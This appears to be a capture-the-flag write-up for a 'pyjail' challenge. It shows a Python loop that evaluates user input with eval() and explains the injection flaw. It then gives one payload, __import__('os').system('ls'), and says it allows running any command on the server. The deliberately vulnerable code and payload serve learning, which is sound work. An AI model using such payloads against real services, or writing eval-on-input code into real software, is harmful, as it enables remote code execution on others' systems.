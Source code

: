 # 🛡️ Challenge Writeup — pyjail

---

## 📜 Challenge Description

We are given the following Python code:

```python
import string
while True:
    number = input('>> ')
    if number:
        number += "+"
    print(eval(f"1+{number}1"))
```

The goal is to exploit it and potentially execute arbitrary code.

---

## 📥 Code Analysis

The important part is:

```python
print(eval(f"1+{number}1"))
```
The user input is directly injected into a Python eval() call without sanitization. We can inject any Python expression.

---

## 🚀 Exploit Example

To execute arbitrary code, you can inject something like:

```python
(__import__('os').system('ls'))
```
and then you can execute any command on the server.
